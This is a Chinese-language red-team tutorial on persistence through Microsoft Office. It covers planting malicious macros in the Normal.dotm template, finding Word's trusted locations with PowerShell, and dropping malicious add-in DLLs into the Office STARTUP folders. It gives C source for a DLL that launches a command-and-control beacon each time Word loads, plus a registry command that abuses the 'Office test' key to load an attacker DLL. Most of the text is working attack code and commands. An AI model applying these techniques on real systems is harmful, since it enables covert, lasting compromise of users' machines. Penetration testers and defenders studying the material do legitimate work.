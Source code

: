## Office Templates

### 默认文档

Microsoft Office 在`%APPDATA%`中包含一个存储所有模板的文件夹。Office启动时，基本模板都会用作默认文档

```cmd
%APPDATA%\Microsoft\Templates\Normal.dotm
```

将恶意宏嵌入到基本模板中，受害者可能会在一天中多次启动Office，这样就能达到权限维持的目的

### Office 加载项

Office 加载项用于扩展 Office 程序的功能。当 Office 应用程序启动时，系统会检查存储加载项的文件夹，以便应用程序加载它们

可以执行以下命令来发现可以删除加载项的 Microsoft Word 的受信任位置

```powershell
Get-ChildItem "HKCU:\Software\Microsoft\Office\16.0\Word\Security\Trusted Locations"
```

Office 加载项是 DLL 文件，根据应用程序具有不同的扩展名。例如，Word 为.wll ，Excel 为.xll

生成恶意DLL，移动到 Word 启动文件夹，恶意DLL每次 Word 启动时执行加载项

```cmd
%APPDATA%\Microsoft\Word\STARTUP
%APPDATA%\Microsoft\PowerPoint\STARTUP
%APPDATA%\Microsoft\Excel\STARTUP
```

这将导致 Microsoft Word 崩溃，从而向用户提供软件已被修改或需要重新安装的指示

## 优雅的方法

一种优雅的方法是创建一个不会导致应用程序失败的自定义 DLL

DLL_PROCESS_ATTACH 会将 DLL 加载到当前进程（Word、Excel、PowerPoint 等）的虚拟地址空间中。加载 DLL 后，它将启动任意可执行文件，该可执行文件

将打开与命令和控制服务器的通信通道

```c
// Word 插件 – DLL
// dllmain.cpp : Defines the entry point for the DLL application.
#include "pch.h"
#include <stdlib.h>
 
BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH: 
        system("start beacon.exe");
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

Microsoft Office 应用程序使用此密钥在开发阶段加载 DLL 以进行性能评估。使用命令提示符执行以下命令将创建指向本地存储的 DLL 文件的密钥

```cmd
reg add "HKEY_CURRENT_USER\Software\Microsoft\Office test\Special\Perf" /t REG_SZ /d C:\tmp\pentestlab.dll
```
